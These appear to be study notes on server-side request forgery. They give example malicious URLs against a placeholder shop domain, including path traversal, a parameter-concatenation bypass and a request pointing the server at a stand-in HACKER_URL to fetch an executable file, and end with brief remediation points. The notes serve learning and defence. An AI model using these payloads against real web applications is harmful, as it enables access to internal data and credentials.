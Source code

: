 allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing

a lot of trial and error will be required to find a working 

often arise from implementations where our web application needs to use third-party services. when the url parameter contains an url or external server

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as https://requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

-   Access to unauthorised areas
-   Access to customer/organisational data
-   Ability to Scale to internal networks
-   Reveal authentication tokens/credentials

# Examples 
the server expects an endpoint or URL to fetch data from:

## Normal URL
**Expected Request:**
`http://my-shop.de/stock?url=http://api.my-shop.de/api/stock/item?id=123`
**Hacker Request:**
`http://my-shop.de/stock?url=http://api.my-shop.de/api/user` to get user data
`http://my-shop.de/stock?url=http://HACKER_URL/malicious/file` to provide a different url to fetch (executable) data from

## directory traversal
where only the url path can be provided
**Expected Request:**
`http://my-shop.de/stock?url=/item&id=123`
**Hacker Request:**
`http://my-shop.de/stock?url=/../user` to get user data

## concatenated URL
some web apps let us provide a subdomain which is then concattenated with the second-level domain and TLD.
we could by pass that with `&x=` to interrupt the rest 
**Expected Request:**
`http://my-shop.de/stock?server=api&id=123` which is concattteated to: `http://my-shop.de/stock?server=api.my-shop.de/api/stock/item&?id=123`
**Hacker Request:**
`http://my-shop.de/stock?server=api.my-shop.de/api/user&x=&id=123` to get user data


# Finding a SSRF vulnerability
## full URL in Parameter
`http://my-shop.de/stock?url=http://api.my-shop.de/api/stock/item?id=123`
## partial URL in Parameter e.g. Hostname
`http://my-shop.de/stock?server=api`
## only path of URL in parameter
`http://my-shop.de/stock?destination=/item&id=123`
## Forms and input
in the HTML Forms some forms and inputs allow to enter a full / partial URL as value.
e.g. to select a avatar or sth like that where the path of the avatar is provided and loaded -> here we could enter a different value


# Remediation: How to prevent SSRF
1. Allow List 
2. Deny List
3. validating user input
4. replace values to prevent path / directory traversal